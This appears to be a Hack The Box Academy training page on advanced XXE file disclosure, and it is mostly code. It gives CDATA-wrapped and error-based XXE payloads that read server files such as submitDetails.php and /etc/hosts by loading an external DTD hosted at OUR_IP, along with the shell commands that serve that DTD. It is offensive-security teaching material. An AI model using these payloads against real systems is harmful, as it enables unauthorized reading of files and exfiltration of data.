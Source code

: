 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1206
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1206
// Section Title: Advanced File Disclosure
// Page Title: Hack The Box - Academy
// Page Number: 15
-->

# Advanced File Disclosure

**Module Name:** Web Attacks **Page Number:** 15

#### 

#### WEB ATTACKS

# Advanced File Disclosure

## Advanced Exfiltration with CDATA

``` xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

``` xml
<!ENTITY joined "%begin;%file;%end;">
```

``` shell-session
[!bash!]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
[!bash!]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

``` xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

## Error Based XXE

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

``` xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

``` xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

# 

# 

#### Questions

####